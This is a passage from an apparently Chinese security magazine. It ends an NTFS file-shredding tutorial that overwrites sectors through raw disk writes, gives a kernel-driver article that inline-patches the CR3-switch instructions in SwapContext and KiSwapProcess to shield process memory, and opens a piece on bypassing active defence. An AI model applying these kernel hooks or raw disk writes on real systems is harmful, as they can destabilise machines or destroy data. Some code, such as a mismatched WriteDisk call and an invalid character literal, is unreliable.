    dwMFTAttrLen += dwMFT30AttrLen;
}

if (*(LPDWORD)lpTempBuffer != 0x30) {
    lpTempBuffer -= dwMFT30AttrLen;
}

if (*(lpTempBuffer + 0x08) == 0) {
    DWORD NeedBytes;
    dwMFT30AttrLen = *(LPWORD)(lpTempBuffer + 0x04);
    DWORD AttrValOffset = *(LPWORD)(lpTempBuffer + 0x14);
    lpTempBuffer += AttrValOffset;

    DWORD fileNum = *(lpTempBuffer + 0x40);
    memcpy(fileName, lpTempBuffer + 0x42, fileNum * 2);

    WideCharToMultiByte(CP_ACP, NULL, fileName, wcslen(fileName), NULL, 0, NULL, NULL);
    WideCharToMultiByte(CP_ACP, NULL, fileName, wcslen(fileName), FileNameTemp, NeedBytes, NULL, NULL);

    if (strcmp(FileNameTemp, g_pFileName)) {
        pNtfsTree = new CNtfsTree;
        ...
    }
}
```

```cpp
pNTFSTree->m_dwSecPerClus = dwSecPerClus;
pNTFSTree->m_dwBytesPerSec = dwBytesPerSec;
pNTFSTree->m_hPartition = pDirTree->m_hPartition;
g_flag = true; // 标记已找到文件
...
LPBYTE tempBuff = lpTempBuffer;
if (*(LPDWORD)tempBuff == 0x80) {
    // 得到80属性总大小
    dwMFT80AttrLen = *(LPWORD)(tempBuff + 0x04);
    if (*(tempBuff + 0x08) == 0) {
        // 表示为常驻属性
        DWORD FileContentLen = *(LPDWORD)(tempBuff + 0x10);
        DWORD FileContentOff = *(LPWORD)(tempBuff + 0x14);
        ...
        FILE *fp = fopen(g_pFilePath, "rb+");
        char *pbuf = new char[FileContentLen];
        for (int i = 0; i < FileContentLen; i++) pbuf[i] = '0xA4';
        fwrite(pbuf, sizeof(char), FileContentLen, fp);
    }
}
```

```cpp
...
delete pbuf; fclose(fp);
// 对文件对应的内容区域置0或1操作
WriteDisk(pNTFSTree->m_hPartition, dwStartSec, FileContentLen, dwMFTAttrLen);
return;
}
else {
    // 表示为非常驻属性
    WORD RunValOffset = *(LPWORD)(tempBuff + 0x20);
    DWORD runBytes = dwMFT80AttrLen - RunValOffset;
    tempBuff += RunValOffset;
    GetContentUseClus(tempBuff, runBytes, pNTFSTree);
    lpTempBuffer += dwMFT80AttrLen;
    if (g_flag) {
        SmashFileContent(pNTFSTree);
    }
}
dwStartSec += 2;
```

上面的程序给出了如何准确地搜索出待粉碎文件，并获取到其所占扇区总数及其每个扇区的偏移。下面给出如何对指定的扇区位置置0或1操作函数，实现代码如下：

```cpp
// 从指定扇区号dwSector开始写入dwLength长度的数据
BOOL WriteDisk(HANDLE hpartition, DWORD dwSector, DWORD dwLength)
{
    DWORD dwCB, dwFilePointer;
    unsigned char* lpBuffer = (unsigned char*)malloc(dwLength * 512);
    memset(lpBuffer, 0, dwLength * 512);
    LARGE_INTEGER offset;
    // 将文件偏移量转化为int64
    offset.QuadPart = UInt32x32To64(dwSector, 512);
    // 偏移到指定的扇区位置
    ...
}
```

```cpp
dwFilePointer = SetFilePointer(hpartition,
    offsetLowPart,
    &offsetHighPart,
    FILE_BEGIN);
// 对指定的多个连续的扇区位置置位操作
WriteFile(hpartition, lpBuffer, dwLength * 512, &dwCB, NULL);
free(lpBuffer);
return true;
```

该技术需要多次且交替地复写文件。



图5

##### 粉碎测试

鉴于NTFS系统在处理不同大小的文件时不一致，下面测试两种存储方式下的文件，即文件内容存放在MFT表内和文件内容存放在数据区域。首先，设文件名为important.txt，且文件内容为“I want to smash the file, and I don't like that anybody get it.”，运行软件后效果如图3所示。



图3

下面采用EasyRecovery软件，选择“高级数据恢复”选项对粉碎的文件进行恢复，界面如图4所示。



图4

单击“下一步”，保存到不同的分区下，打开恢复后的文件，其内容如图5所示。显然，文件已经被粉碎了，此时若采用软件方式恢复，无法再现出此文件内容；当然，若需防范深层次信号还原技术，需要多次且交替地复写文件。

对大文件进行粉碎的测试这里就不再给出，由前面的代码可知，将文件对应的所有扇区全部置为0，此时若采用EasyRecovery恢复此文件，打开的文件将会是一个空文件。当然，最好是多次交替地调用WriteDisk函数，交替反复地写此文件。

最后，提示读者在NTFS文件系统下，企图一次对小文件（即文件内容存放在其对应的MFT表项80属性内）进行复写“0”操作实现文件删除将不会成功，因为MFT文件受系统保护；当MFT文件被破坏后，系统会另行复制一个未修改的MFT。一般而言，新生成的MFT会紧邻被破坏的MFT表，读者可自行测试。

##### 小结

数据恢复技术与数据擦除技术是对立的两面，但任何一个对数据信息较为敏感的人而言，都无法脱离两者。很多时候你不小心删除了或被病毒污染了某重要文件，此时需要寻找一个强大的恢复软件，对文件实施数据恢复；同样，你也会遇到某些重要文件不再使用时，需要彻底地擦除，此时你会选择一个强大的文件粉碎软件，对文件进行粉碎。此时即便你已经采用某软件擦除了此机密文件，但若你并不了解此软件到底具备多强的擦除功能，依然无法放心。本文介绍了一种很好的方法实现任一文件的粉碎并进行了详细的代码分析。而且，为了达到数据安全国际标准，读者完全可以选择多次交替地复写0和1，实现文件彻底粉碎。显然，读者对自己亲手编写的数据擦除软件定会放心许多。最后，对文件擦除、数据恢复技术及计算机取证技术感兴趣的读者，欢迎大家在黑防上交流。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC

关键词：编程、CR3、驱动、内存保护

## 防止直接切换CR3读写进程内存



文／图 NewbieCoder[OGiNr]

内存保护是一个有些年代的话题了。众所周知，在目前的大环境下，不可能做到所有线程并发执行，这也就意味着线程必须分享CPU时间。而线程显然各有不同的进程上下文（在此处我们只考虑其所在的虚拟内存空间），此时为了能够让线程分享CPU时间的同时不影响其他线程的执行，操作系统就需要负责在将CPU时间分给某个线程之前，对其运行上下文进行某些操作，以保证其接着运行时的上下文与之前其被中断时的上下文相同。显然，其虚拟内存空间也是所需要保存、恢复的内容之一（当然，同进程的不同线程之间切换时不需要这样做）。换句话说，切换线程时需要重新载入CR3，因此CR3必然需要保存在内存的某个位置，也就是KPROCESS中的DirectoryTableBase。

但实际并非如此。本文将介绍一种通过拦截操作系统切换CR3指令的方法，使得切换到特定进程的线程时，不再依赖于KPROCESS中的DirectoryTableBase，因此将无法从KPROCESS的DirectoryTableBase中取得进程的CR3，进而防止直接切换CR3来读写进程内存。

```text
kd> dt _KPROCESS
+0x000 Header : _DISPATCHER_HEADER
+0x010 ProfileListHead : _LIST_ENTRY
+0x018 DirectoryTableBase : [2] Uint4B
```

显然，贸然修改DirectoryTableBase会导致虚拟内存到物理内存的映射出现问题，因此这个值被认为是很难修改的，所以不少初学者都会认为直接从KPROCESS的DirectoryTableBase中取出CR3，然后自行切换CR3即可绕过各种内存保护，实现进程内存的读写，并根据DirectoryTableBase不可轻易修改而得出结论认为这种做法是无法阻止的。

## 可以切换CR3的函数

显然，若要拦截切换CR3的指令，前提是需要知道这些指令所在位置。这个可以自己写段代码搜一下ntkrnlpa的代码段，此处仅需要搜索不可分页的代码段，因为切换上下文，也即切换CR3的代码显然位于Kernel层，因此所有Executive层的代码可以不予考虑（搜索特定指令的代码较容易写出，此处从略）。

经过搜索，切换CR3的代码存在于KiSwapProcess及SwapContext中，均为“mov cr3,eax”。

##### 相关函数的定位

KiSwapProcess及SwapContext均未导出，需要自行定位。其中SwapContext可于KiDispatchInterrupt中搜索到，KiSwapProcess则可在KeDetachProcess中搜索到，搜索代码分别如下：

```cpp
PVOID
LocateKiSwapProcess(
    VOID
)
{
    UCHAR *cPtr, *pOpcode;
    ULONG Length;
    for (cPtr = (UCHAR *)KeDetachProcess; ... ) {
        Length = SizeOfCode(cPtr, &pOpcode);
        if (Length) {
            ...
        }
    }
}
```

```c
return NULL;
}

if (*pOpcode == 0xB8 && *(pOpcode + 5) == 0xA1) {
    return pOpcode + 5 + *(ULONG *)(pOpcode + 1);
}

return NULL;
}

PVOID
LocateSwapContext(
    VOID
)
{
    UCHAR *cPtr, *pOpcode;
    ULONG Length;

    for (cPtr = (UCHAR *)KiDispatchInterrupt;
         cPtr != (UCHAR *)KiDispatchInterrupt + SizeOfProc(KiDispatchInterrupt);
         cPtr += Length) {

        Length = SizeOfCode(cPtr, &pOpcode);
        if (!Length) {
            return NULL;
        }

        if (*(SHORT *)cPtr == 0x01B8 && *(cPtr + 2) == 0xE9) {
            pOpcode += 2;
            return pOpcode + 5 + *(ULONG *)(pOpcode + 1);
            break;
        }
    }

    return NULL;
}
```

## 修改代码定位：跳过CR3前后的处理

现节选SwapContext的反汇编结果如下：

```asm
loc_469B1C:
mov ecx, [ebx+40h]        ; TSS
mov [ecx+KTSS.Esp0], eax
mov esp, [esi+KTHREAD.KernelStack]
mov eax, [esi+KTHREAD.Teb]
mov [ebx+18h], eax        ; KPCR.NT_TIB.Self
sti                       ; 开中断
mov eax, [edi+KTHREAD.ApcState.Process] ; OldProcess
cmp eax, [esi+KTHREAD.ApcState.Process] ; NewProcess
mov [edi+KTHREAD.IdleSwapBlock], 0
jz short loc_469B64
mov edi, [esi+KTHREAD.ApcState.Process] ; edi = NewProcess
test [edi+KPROCESS.LdtDescriptor.LimitLow], 0FFFFh
```

```asm
jnz short loc_469B9E
xor eax, eax

ChangePageDirectoryBase:
lldt ax
xor eax, eax
mov gs, ax
assume gs:nothing
mov eax, [edi+_KPROCESS.DirectoryTableBase]
mov ebp, [ebx+40h] ; TSS
mov ecx, dword ptr [edi+_KPROCESS.IopmOffset]
mov [ebp+1Ch], eax
mov cr3, eax       ; 切换CR3
mov [ebp+66h], cx
jmp short loc_469B64
```

SwapContext先获取了进程的DirectoryTableBase，然后将其放入CR3，这样便完成了内存空间的切换。KiSwapProcess与之类似，不再重复讨论。

## 准备善后的处理

通过在执行“mov cr3,eax”之前插入转跳指令（不一定要在“mov cr3,eax”之前插入，可以直接覆盖掉“mov cr3,eax”，只要保证我们的代码先于“mov cr3,eax”执行即可）即可获取控制权。

获取了控制权之后的首要问题是如何判断指令“mov cr3,eax”要将何进程的DirectoryTableBase放入CR3。显然，CR3对于进程而言是独立的，即每个进程有且只有一个独立的DirectoryTableBase，因此可以通过枚举出所有的DirectoryTableBase，然后将当前eax值与各DirectoryTableBase比较得出将要切换到的进程。

但是目前所需要关注的仅仅是将要切换到的进程是否为被保护的进程，因此可以给将要保护的进程赋予一个独特的DirectoryTableBase（SwapContext及KiSwapProcess在“mov cr3,eax”之前会将DirectoryTableBase放入eax），然后此时将eax与此特殊的DirectoryTableBase进行比较即可得出是否为所保护的进程。

本文为被保护进程的DirectoryTableBase赋0。显然0通常不能作为DirectoryTableBase。因为通常而言，0处起的PAGE_SIZE大小的内存不是一个有效的页目录，因此将0加载至CR3后，很可能导致出错（eip中的地址是虚拟地址，若页目录存在问题，则eip所指的虚拟地址进行转换会失败）。切换以后很可能指向一个错误的物理地址或者根本不存在。因此0通常不会成为任何进程的DirectoryTableBase，进而可以用0将被保护的进程与其他进程区分开来。当然，也可以使用一个类似于MagicNumber这样的特殊数字用于标示被保护的进程，可以根据情况进行选择。

之后便是对于保护与未保护的进程分开处理。若“mov cr3,eax”指令不涉及被保护的进程，则不需要进行任何操作，直接转跳回去继续执行即可（当然要注意保存现场，也就是说，进入Handler之前与返回到SwapContext/KiSwapProcess之后的各种寄存器的内容应该完全相同，这可以通过pusha/pushf实现）；否则，需要为eax赋一个有效的页目录表的地址。（由于转跳回去之后就会立即将eax的值放入CR3，因此eax必须是一个有效的DirectoryTableBase。）

若想要拒绝此次切换CR3的操作，则将当前的CR3放入eax即可，这样对该进程内存的任何读写操作均会在调用方的进程空间中执行（对于SwapContext中的“mov cr3,eax”而言此种做法在代码中并未体现；KiSwapProcess的Handler中有此种做法），否则将进程实际的DirectoryTableBase放入eax。

这种做法实现起来与Hook区别不大，代码如下：

```cpp
HookInstruction(
  IN PVOID Procedure,
  IN PVOID Handler,
  OUT PVOID& ProxyProcedure
)
{
  PVOID Position = InstructionPosition(Procedure);
  // 获取"mov cr3, eax"的位置
  ProxyProcedure = GenerateProxyProcedure(Position, Handler);
  // 类似于Hook
  HookSystemRoutine(Position, Handler);
  return TRUE;
}
```

在插入转跳之后，执行流程如下：

```text
kd> u 80541b4c
80541b4c 8b4718      mov eax,dword ptr [edi+18h]
// eax = KPROCESS.DirectoryTableBase
...
80541b58 6820d598f8  push offset SimpleDriver!InstructionHandlerSc
// 插入的转跳
...
kd> u SimpleDriver!InstructionHandlerSc
f898d520 669c        pushf
// 保存Eflags
f898d522 83f800      cmp eax,0
f898d525 7505        jne ...
// 不为0则直接恢复执行
f898d527 a1b02998f8  mov eax,dword ptr [SimpleDriver!ProcessPageDirectory]
// 否则将原始DirectoryTableBase放入eax
f898d52c 669d        popf
f898d52e ff251c0299f8 jmp dword ptr [SimpleDriver!ProxySwapContext]

kd> u poi(f899021c)
81f7eb28 0f22d8      mov cr3,eax
// 实现被覆盖掉的代码（执行及下行）
...
// 转跳回SwapContext
```

```cpp
// 找到"mov cr3, eax"
PVOID InstructionPosition(
  IN PVOID Procedure
)
{
  UCHAR *pOpcode, *cPtr;
  ULONG ProcSize = PAGE_SIZE;
  ULONG Length;
  for (cPtr = (UCHAR*)Procedure; ; ++cPtr) {
    // mov cr3, eax : 0f 22 d8
    if (*cPtr == 0x0F && *(cPtr+1) == 0x22 && *(cPtr+2) == 0xD8) {
      return cPtr;
    }
  }
  return NULL;
}

// 覆盖"mov cr3,eax"(及其后几条指令)，执行转跳，获取控制权
BOOLEAN ...
```

```asm
817feb34 c3 ret
kd> u 8054b65f
nt!SwapContext+0xaf:
8054b65f eb03 jmp nt!SwapContext+0xb4 (8054b664)
8054b661 8d4900 lea ecx,[ecx]
8054b664 8b4318 mov eax,dword ptr [ebx+18h]
8054b667 8b4b3c mov ecx,dword ptr [ebx+3Ch]
```

与前文原始的 SwapContext 执行流程进行比较并配以反汇编中的注释，可以很容易地看出修改后的执行流程，不再赘述。

##### 回溯

常见的内存读写除直接修改 CR3 外，均是通过各种系统调用/内核函数实现的，这些函数内部均会调用 KeStackAttachProcess（进一步调用 KiAttachProcess），进而使用 KiSwapProcess 完成 CR3 的切换。前文中通过修改指令已经可以拦截 KiSwapProcess 中切换 CR3 的相关代码，此时通过回溯堆栈可以判断调用来源。

首先我们知道，函数开头通常类似于：

```asm
mov edi,edi
push ebp
mov ebp,esp
```

第一行等价于两个 nop，所以使用“mov edi,edi”仅仅是因为其效率高于连续的两个 nop。这不是本文重点，请自行查阅相关资料。接下来的“push ebp”用于保存调用方的 ebp。对于调用方而言，其可以假定被调用方不会修改 ebp，因此被调用方需要自行保存 ebp（因为接下来的指令修改了 ebp）。接下来的“mov ebp,esp”将当前栈顶指针存入 ebp。

通常而言，函数内部除开头处的“mov ebp,esp”以及结尾的“mov esp,ebp”以外，ebp 不会被修改。本文也假定 ebp 在函数内部不会被修改。显然，基于此种假定，ebp 指向的内存为刚进入函数后执行“push ebp”之后的栈顶，也就指向了调用方的 ebp；而调用方的 ebp 指向了调用方的调用方的 ebp，基于此可以查询到调用方函数内部的 ebp。

同时，通常而言，调用函数使用 call 指令。call 指令会先将返回地址压入堆栈，然后跳转到目标函数。因此，在调用方 ebp 下方的数值为返回地址，所以根据某函数内部的 ebp 可以查询到其调用方的函数位置（确切来说，是调用方中调用此函数的指令的下一条指令的位置）。现给出图 1 来说明栈中的内容。



KiSwapProcess 通常的调用方为 KiAttachProcess 及 KeUnstackDetachProcess，这两个函数开头均会保存调用方的 ebp，同时也会用 ebp 来寻址局部变量，因此可以在 Handler 中通过 ebp 向上回溯调用方的 ebp 及调用方的返回地址，然后继续向上回溯（尽管 KiSwapProcess 并未保存 ebp，但这也就可以说明 KiSwapProcess 并未修改 ebp，因此仍然可以向上回溯）。代码如下：

```c
PVOID
UnwindCallStack(
    PVOID ChildEbp,
    PVOID &ReturnAddress
)
{
    ReturnAddress = ((PVOID*)ChildEbp)[1];
    return ((PVOID*)ChildEbp)[0];
}
```

在获得了调用方的函数地址后，需要判断其地址所属范围。显然，若调用来自于 NT 自身模块，则继续向上回溯；一旦遇到未知模块，则可认定是某内核驱动企图切换到被保护进程的虚拟内存中，此时便可阻止此操作（直接将当前的 CR3 放入 eax 后跳回 KiSwapProcess，这样便不会进行内存切换）。当回溯到用户态地址时停止回溯，并允许此次切换 CR3 的操作（本文仅针对内核态的读写其他进程内存的方法，不考虑用户态的 ReadProcessMemory 等函数）。过滤代码如下（代码仅打印出调用方，并未过滤，在 Handler 中会根据 IsCallLegal 的返回值决定是否过滤）。

```c
BOOLEAN
__stdcall
IsCallLegal(
    PVOID ChildEbp
)
PVOID ReturnAddress;
PVOID LocalChildEbp = ChildEbp;

// 一直向上回溯
while (LocalChildEbp) {
    LocalChildEbp = UnwindCallStack(LocalChildEbp, ReturnAddress);
    if ((ULONG)ReturnAddress < MM_USER_PROBE_ADDRESS) {
        break;
    }
    // 在此处判断 ReturnAddress 所属模块
    DbgPrint("[MemoryProtection] IsCallLegal: KiSwapProcess from 0x%X\n", ReturnAddress);
}
return TRUE;

// 由于安全考虑，此函数使用汇编编写
__declspec(naked)
VOID InstructionHandlerSp(
    VOID
) {
    __asm {
        pushfd
        cmp eax, 0
        jnz ForwardRequest
        pushad
        push ebp
        call IsCallLegal
        cmp al, TRUE
        je CallLegal
        popad
        mov eax, cr3
        jmp ForwardRequest
CallLegal:
        popad
        mov eax, ProcessPageDirectory
ForwardRequest:
        popfd
        jmp ProxyKiSwapProcess
    }
}
```

非常易懂。对于开启保护，则先要获得原始 DirectoryTableBase，然后修改指令执行流程，最后将 DirectoryTableBase 置为 0，防止其他驱动获取到 DirectoryTableBase。

```c
VOID SetProcessPageDirectory(
    IN PEPROCESS Process,
    IN ULONG PageDirectory
) {
    *(ULONG *)((CHAR *)Process + PageDirectoryBaseOffset) = PageDirectory;
    return;
}

ULONG GetProcessPageDirectory(
    IN PEPROCESS Process
) {
    return *(ULONG *)((CHAR*)Process + PageDirectoryBaseOffset);
}

ProcessPageDirectory = GetProcessPageDirectory(ProcessObject);
if (ProcessPageDirectory) {
    Status = STATUS_INVALID_DEVICE_REQUEST;
}
DbgPrint("[MemoryProtection] DriverEntry: Page directory base is 0x%X\n", ProcessPageDirectory);
if (NT_SUCCESS(Status)) {
    Status = EnableMemoryProtection() ? STATUS_SUCCESS : STATUS_INVALID_DEVICE_REQUEST;
}

SetProcessPageDirectory(ProcessObject, 0);
```

关闭保护与执行流程相反。

```c
SetProcessPageDirectory(ProcessObject, ProcessPageDirectory);
DisableMemoryProtection(); // 恢复执行流程
```

##### 开关进程保护

在理解了保护的原理之后，如何开关保护便……

##### 驱动测试

打开一个记事本后加载驱动，之后驱动会 PsLookupProcessByProcessId 从 4 到 0xffff（出于方便，没有用 ZwQuerySystemInformation，定位进程不是文章重点嘛）找到第一个 notepad.exe，把 notepad.exe 的页目录改为 0（这样其他驱动就不能取得被保护进程的 CR3 了），同时对 KiSwapProcess 的调用会回溯堆栈并将调用堆栈打印出来。打印的时候是一层一层向上回溯的，但都显示“KiSwapProcess from 0xXXXXXXX”，效果如下：

```text
PROCESS 81b89020 SessionId: 0 Cid: 0e0 ...
Image: notepad.exe
...
[MemoryProtection] DriverEntry: Here we go.
[MemoryProtection] DriverEntry: Process found, process object = 0x8210CDA0
```

```text
[MemoryProtection] DriverEntry: Page directory base is 0x3B00220.
[MemoryProtection] HookInstruction mov cr3, eax is located at ...
[MemoryProtection] EnableMemoryProtection: KiSwapProcess hooked.
...
[MemoryProtection] IsCallLegal: KiSwapProcess from 0xBF8F20B0.
...
[MemoryProtection] DisableMemoryProtection: KiSwapProcess unhooked.
[MemoryProtection] DriverUnload.
```

##### 小结

本文提供了一种防止直接切换 CR3 读写进程内存的方法。但是，显然本文提供的方法还远远不能够实现全方位地保护进程内存（比如直接给被保护的进程投一个 APC，然后在 APC 里面修改内存），因此，只有将各种方法结合起来，才能够全面地保护好进程的内存空间。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：驱动汇编  
关键词：SSDT，主动防御

#### 构造自己的 SSDT

##### 绕过主动防御

